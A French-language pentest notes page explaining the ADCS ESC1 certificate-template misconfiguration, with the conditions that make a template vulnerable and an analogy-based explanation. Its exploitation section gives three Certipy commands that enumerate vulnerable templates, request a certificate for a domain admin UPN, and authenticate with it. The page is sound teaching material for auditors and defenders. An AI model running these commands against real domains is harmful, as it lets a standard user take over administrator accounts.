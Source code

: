 ```yaml
---
description: >-
  https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/
---
```


# ESC1

## <mark style="color:red;">ESC1 - Vulnérabilité des templates</mark>

Un template est vulnérable à ESC1 si toutes ces conditions sont réunies :

* **Client Authentication** : Activé
* **Template** : Activé
* **Enrollee Supplies Subject** : Activé (l'utilisateur peut définir le sujet)
* **Requires Management Approval** : Désactivé
* **Authorized Signatures Required** : 0

**Impact** : Un utilisateur standard peut demander un certificat pour n'importe quel utilisateur, y compris un administrateur de domaine.

***

### <mark style="color:blue;">Exploitation avec Certipy</mark>

Certipy est un outil Python qui permet d'exploiter les vulnérabilités d'ADCS.

#### <mark style="color:green;">Étape 1 : Énumération des templates vulnérables</mark>

```
certipy find -u 'billy@foobar.com' -p <password> -dc-ip <DC_IP> -vulnerable -enabled
```

#### <mark style="color:green;">Étape 2 : Demande d'un certificat pour un compte privilégié</mark>

```
certipy req -u 'billy@foobar.com' -p '<PASSWORD>' -dc-ip '10.10.1.100' \
-target 'foobar-CA.foobar.com' -ca 'foobar-CA' -template 'FOO_Templ' \
-upn 'DA_Dan@foobar.com'
```

#### <mark style="color:green;">Étape 3 : Utilisation du certificat pour s'authentifier</mark>

```
certipy auth -pfx DA_Dan.pfx
```

***

{% hint style="warning" %}
<mark style="color:green;">**L'origine de la vulnérabilité ESC1**</mark>

La vulnérabilité provient d'une mauvaise configuration des templates de certificats, et non d'un bug logiciel. Voici ce qui se passe:

1. **Rôle normal des certificats**: Normalement, un certificat prouve votre identité dans un environnement Windows. C'est comme une carte d'identité numérique.
2. **Problème de conception**: Le système de certificats Windows (ADCS) permet de créer des templates (modèles) qui définissent qui peut demander des certificats et comment ils sont générés.
3. **La faille spécifique**: Quand un template est configuré avec les options suivantes, il devient vulnérable:
   * **Enrollee Supplies Subject** (L'utilisateur peut définir le sujet): C'est le point critique. Cette option permet à n'importe quel utilisateur autorisé à demander un certificat de spécifier pour QUI ce certificat est créé, au lieu d'être limité à sa propre identité.
   * **Client Authentication** (Authentification client): Permet d'utiliser le certificat pour s'authentifier.
   * Pas d'approbation requise par un administrateur.
4. **Conséquence**: Un utilisateur standard peut demander un certificat en prétendant être un administrateur de domaine. Le système de certificats accepte cette demande sans vérifier correctement si l'utilisateur a le droit de demander un certificat pour quelqu'un d'autre.

***

<mark style="color:green;">**Exemple concret**</mark>

Imaginons:

1. Une entreprise a un template de certificat appelé "FOO\_Templ" avec les options vulnérables activées.
2. Tous les utilisateurs du domaine ont le droit d'utiliser ce template.
3. Bob, un simple utilisateur, demande un certificat pour le compte "[AdminDomaine@entreprise.com](mailto:AdminDomaine@entreprise.com)" en utilisant ce template.
4. Le serveur de certificats (CA) accepte cette demande et délivre un certificat qui "prouve" que Bob est "AdminDomaine".
5. Bob peut maintenant utiliser ce certificat pour s'authentifier auprès du système en tant qu'administrateur de domaine.

C'est comme si, dans la vraie vie, vous pouviez aller à la préfecture et demander une carte d'identité au nom du président, et qu'on vous la délivrait sans vérification!

La vulnérabilité existe donc parce que:

1. Les administrateurs système ont mal configuré les templates
2. Le système de certificats n'applique pas correctement la séparation des privilèges
3. Par défaut, les certificats ont une longue durée de validité (plusieurs années)
{% endhint %}
